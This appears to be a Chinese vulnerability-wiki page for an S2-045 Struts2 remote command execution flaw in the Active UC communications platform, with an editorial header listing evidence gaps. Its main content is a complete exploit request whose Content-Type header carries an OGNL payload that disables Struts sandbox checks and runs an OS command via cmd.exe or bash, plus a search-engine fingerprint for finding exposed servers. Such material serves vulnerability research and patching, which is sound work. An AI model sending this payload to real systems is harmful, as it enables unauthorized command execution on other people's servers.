


# Active UC index.action 远程命令执行漏洞

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Active UC部署受影响Struts组件、相关multipart解析入口可达；是否需登录未说明
- 证据范围：产品与Active Directory完全不同；给出标准OGNL请求但没有组件版本或补丁依据

### 本次正文校订

- 原请求保留 Charsert 标头拼写；Charset 的校订意见置于原请求之外，资源路径保持原样。
- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 误归Active Directory，应独立Active UC产品
- version字段仅产品名而无版本
- 请求Host空、Cookie为具体实验值、Charsert拼写错误、multipart结束符需核对
- 需核对S2-045对应编号后补主CVE，不能直接从路径推断全部版本

### 操作风险与资料使用

- 验证须使用自有隔离环境的凭据；已暴露的真实凭据应撤销或轮换。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

网动统一通信平台 Active UC index.action 存在S2-045远程命令执行漏洞, 通过漏洞可以执行任意命令

## 漏洞影响

```
Active UC
```

## 网络测绘

```
title="网动统一通信平台(Active UC)"
```

## 漏洞复现

登录页面如下




发送如下请求包

```http
POST /acenter/index.action HTTP/1.1
Cookie: SessionId=96F3F15432E0660E0654B1CE240C4C36
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Charsert: UTF-8
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}; boundary=---------------------------18012721719170
Cache-Control: no-cache
Pragma: no-cache
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 196

-----------------------------18012721719170
Content-Disposition: form-data; name="pocfile"; filename="text.txt"
Content-Type: text/plain

xxxxxxx
-----------------------------18012721719170
```




---

> 来源：Threekiii/Awesome-POC
